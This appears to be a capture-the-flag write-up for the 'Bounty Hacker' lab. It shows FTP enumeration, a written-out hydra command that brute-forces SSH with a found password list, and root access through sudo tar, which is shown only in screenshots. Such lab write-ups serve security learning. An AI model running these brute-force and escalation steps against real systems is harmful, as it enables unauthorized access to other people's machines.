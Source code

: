Boot up the machine and enumerate the provided IP address.

NMAP results:

![image](/Bounty%20Hacker/img/Screenshot%202025-06-17%20100750.png)

Visiting FTP first,

![image](/Bounty%20Hacker/img/Screenshot%202025-06-17%20101130.png)

we have 2 text files, copying them to our remote desktop and viewing them.

```bash
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-<redacted>
```
Intrestign we now have a username, which we can used for further steps.

```bash
└─$ cat locks.txt 
<redacted>
```
The locks.txt contained a bunch of strings which kind of looked like passwords, let's bruteforce ssh connection 

```bash
└─$ hydra -l <redacted> -P locks.txt <IP> ssh 
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-17 00:51:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.19.58:22/
[22][ssh] host: 10.10.19.58   login: <redacted>   password: <PASSWORD>
1 of 1 target successfully completed, 1 valid password found
```

Bingo we have a hit. Logging in with ssh.

![image](/Bounty%20Hacker/img/Screenshot%202025-06-17%20102446.png)

We have user flag, now to become root.

![image](/Bounty%20Hacker/img/Screenshot%202025-06-17%20102526.png)

The user can execute this command using sudo, checking out privilege escalation with tar.

![image](/Bounty%20Hacker/img/Screenshot%202025-06-17%20102806.png)

Executing this script, lets see what we get.

![image](/Bounty%20Hacker/img/Screenshot%202025-06-17%20102926.png)

Bingooo, we are root and the challeneg has been solved.